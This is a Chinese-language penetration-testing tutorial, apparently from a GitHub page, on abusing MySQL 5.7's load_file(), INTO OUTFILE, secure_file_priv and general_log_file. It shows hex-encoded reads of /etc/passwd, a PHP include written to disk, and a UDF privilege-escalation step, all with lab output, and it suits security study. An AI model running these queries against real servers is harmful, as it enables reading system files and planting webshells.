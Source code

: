 ## load_file() / into outfile()


这里使用  mysql v 5.7.27  centos7

用load_file()搜索一个存在目录的文件,发现返回null，默认没开权限，只能导入导出mysql数据库目录下文件。

	mysql> select load_file('/home/a.php');
	+--------------------------+
	| load_file('/home/a.php') |
	+--------------------------+
	| NULL                     |
	+--------------------------+
	1 row in set (0.00 sec)

查 secure 权限

	mysql> show global variables like '%secure%';
	+--------------------------+-----------------------+
	| Variable_name            | Value                 |
	+--------------------------+-----------------------+
	| require_secure_transport | OFF                   |
	| secure_auth              | ON                    |
	| secure_file_priv         | /var/lib/mysql-files/ |
	+--------------------------+-----------------------+
	3 rows in set (0.01 sec)

默认路径 /var/lib/mysql-files/

在该路径 新建 a.php，导入。

	mysql> select load_file("/var/lib/mysql-files/a.php");
	+-----------------------------------------+
	| load_file("/var/lib/mysql-files/a.php") |
	+-----------------------------------------+
	| sss
	                                    |
	+-----------------------------------------+
	1 row in set (0.00 sec)

可以看到结果。

搜索mysql配置文件my.cnf

	whereis my.cnf

	vi /etc/my.cnf

在 my.cnf 的  ```[mysqld]``` 下新建

```secure_file_priv=``` ，(这里有点没搞清楚，比如 /etc/passwd 可以读取的，/var/www/html/ 下的文件不可以读取，查看目录里权限一样的。 导出的话经过测试无法导出到其他目录；)

![](mysql.jpg)

不如改成 ： ```secure_file_priv=/var/www/html```，然而这又需要其他权限。

5.7.30 测试改了```/etc/my.cnf``` 会导致mysql无法启动。


导入命令 ```select "<?php include 'publicguide.jpg' ?>"INTO OUTFILE '/home/a.php'```

	mysql> show global variables like '%secure%';
	\+--------------------------+-------+
	| Variable_name            | Value |
	+--------------------------+-------+
	| require_secure_transport | OFF   |
	| secure_auth              | ON    |
	| secure_file_priv         |       |
	+--------------------------+-------+
	3 rows in set (0.01 sec)

重启mysql  ```service mysqld restart```

权限生效，可以用load_file()查看系统任意文件。



	select load_file(0x2F6574632F706173737764);

或  	
	select load_file(char(47,101,116,99,47,112,97,115,115,119,100));

分别表示ASCII字符```/etc/passwd```   的16进制和10进制  

等价于  ```select load_file('/etc/passwd');```



	mysql> select '1' into outfile '/etc/aaa/php';
	ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement

导出到默认开启的目录下

	mysql> select '1' into outfile '/var/lib/mysql-files/aaa.php';
	Query OK, 1 row affected (0.00 sec)

## ```general_log_file```

	mysql> show global variables like "%genera%";
	+------------------+-----------------------------------+
	| Variable_name    | Value                             |
	+------------------+-----------------------------------+
	| general_log      | OFF                               |
	| general_log_file | /var/lib/mysql/VM_32_9_centos.log |
	+------------------+-----------------------------------+
	2 rows in set (0.00 sec)

v 5.7.27 默认查询内容不写日志

手动开启写日志

	set global general_log='on';

还可以给日志文件新的路径

	SET global general_log_file='/var/lib/mysql/VM_32_9_centos.log2';







## 参考资料


[MySQL数据库渗透及漏洞利用总结](https://mp.weixin.qq.com/s?__biz=MzIyNjE4NDcyMA==&mid=2247484839&idx=1&sn=16720fb8e035c8bbe612d738839262c5&chksm=e8751ed8df0297ce54ef5acabd5a42f66f81f66b56b168ba80a3af5d55877d546aee33dd8510&scene=0#rd)

[MySQL 漏洞利用与提权](https://www.sqlsec.com/2020/11/mysql.html)

## 后记


**注意：在导出文件时，当前mysql用户必须存在file权限；部分MySQL服务器运行时启用了--secure-file-priv选项，导出文件时只能导出到规定的目录下，一般为/var/mysql/data命令，要自定义目录时必须修改配置文件设置```secure-file-priv=```；并且导入目录需要有写权限。**

![](mysql2.jpg)

实战中mysql未授权的权限一般都不高，web目录一般都是web当前用户具有写权限，所以很难写进去，向root下写公钥需要root权限，写tmp目录不需要权限。

linux 环境比较苛刻，一般windows mysql提权比较多。

	select hex(load_file('/tmp/lib_mysqludf_sys_64.so')) into dumpfile '/tmp/udf.txt';

	show variables like '%plugin%';

![](mysql3.png)